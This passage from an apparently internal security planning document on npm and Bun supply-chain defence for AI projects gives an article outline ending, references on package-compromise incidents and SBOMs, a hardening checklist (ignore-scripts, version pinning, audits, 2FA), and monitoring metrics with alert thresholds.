   - Model attestation
   - AIBOM standards
   - Regulatory trends (CISA SBOM requirements)

9. **Conclusion: Paranoia as Practice** (100 words)
   - Every dependency is a trust decision
   - Defense must assume compromise
   - The security mindset for AI builders

#### Key Diagrams to Include
- Supply chain attack flow (from Section 3)
- Defense-in-depth layers
- Trust boundary visualization
- Remediation priority quadrant

---

## 8. References

### Supply Chain Attack Research
- [From typos to takeovers: Inside the industrialization of npm supply chain attacks](https://www.csoonline.com/article/4117139/from-typos-to-takeovers-inside-the-industrialization-of-npm-supply-chain-attacks.html) - CSO Online
- [Inside the September 2025 NPM Supply Chain Attack](https://www.armorcode.com/blog/inside-the-september-2025-npm-supply-chain-attack) - ArmorCode
- [20 Popular npm Packages With 2 Billion Weekly Downloads Compromised](https://thehackernews.com/2025/09/20-popular-npm-packages-with-2-billion.html) - The Hacker News
- [Breakdown: Widespread npm Supply Chain Attack](https://www.paloaltonetworks.com/blog/cloud-security/npm-supply-chain-attack/) - Palo Alto Networks

### npm Security Best Practices
- [NPM Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/NPM_Security_Cheat_Sheet.html) - OWASP
- [npm ignore-scripts Best Practices](https://www.nodejs-security.com/blog/npm-ignore-scripts-best-practices-as-security-mitigation-for-malicious-packages) - Node.js Security
- [NPM Security Best Practices After Shai Hulud Attack](https://snyk.io/articles/npm-security-best-practices-shai-hulud-attack/) - Snyk
- [Mitigating supply chain attacks](https://pnpm.io/supply-chain-security) - pnpm

### Dependency Confusion
- [Dependency Confusion: How I Hacked Into Apple, Microsoft and Dozens of Other Companies](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) - Alex Birsan
- [Detect and prevent dependency confusion attacks](https://snyk.io/blog/detect-prevent-dependency-confusion-attacks-npm-supply-chain-security/) - Snyk

### Bun Security
- [Socket Integrates With Bun 1.3's Security Scanner API](https://socket.dev/blog/socket-integrates-with-bun-1-3-security-scanner-api) - Socket
- [Bun Security Scanner API Documentation](https://bun.com/docs/install/security-scanner-api) - Bun Docs

### SBOM and AI Security
- [Software Bill of Materials (SBOM)](https://www.cisa.gov/sbom) - CISA
- [What Is a Software Bill of Materials](https://www.ibm.com/think/topics/sbom) - IBM
- [Secure Your AI Project With Model Attestation and SBOMs](https://jozu.com/blog/secure-your-ai-project-with-model-attestation-and-software-bill-of-materials-sboms/) - Jozu
- [Creating an AI Bill of Materials for Secure GenAI](https://www.mend.io/blog/what-is-an-ai-bill-of-materials-ai-bom/) - Mend

---

## Appendix A: Quick Reference Checklist

### Immediate Actions
- [ ] Add `--ignore-scripts` to all `bun install` / `npm install` commands
- [ ] Pin Bun version in provisioning scripts
- [ ] Add `bun audit` / `npm audit` to CI pipeline
- [ ] Enable 2FA on all npm accounts
- [ ] Review packages with postinstall scripts

### Short-Term Actions
- [ ] Generate SBOM for all releases
- [ ] Pin exact versions in `ansible/requirements.yml`
- [ ] Implement lockfile change detection in CI
- [ ] Configure Bun Security Scanner API
- [ ] Add Socket.dev or Snyk integration

### Long-Term Actions
- [ ] Implement domain-based egress filtering
- [ ] Set up reproducible build pipeline
- [ ] Deploy runtime integrity monitoring
- [ ] Create AI Bill of Materials
- [ ] Establish dependency update review process

---

## Appendix B: Monitoring and Alerting

### Key Metrics to Monitor

1. **Dependency Changes**
   - Lockfile modifications
   - New packages added
   - Version bumps

2. **Network Anomalies**
   - Unusual egress destinations
   - DNS queries to suspicious domains
   - Large data transfers

3. **Process Anomalies**
   - Unexpected child processes during install
   - Network connections from unexpected processes
   - File access outside expected paths

### Alert Thresholds

| Metric | Warning | Critical |
|--------|---------|----------|
| New dependencies per PR | >5 | >10 |
| Egress to unknown domains | Any | - |
| postinstall execution time | >30s | >60s |
| Audit vulnerabilities (moderate+) | >0 | - |

---

*Document maintained by OpenClaw Security Team. Last updated: 2025-02-03*
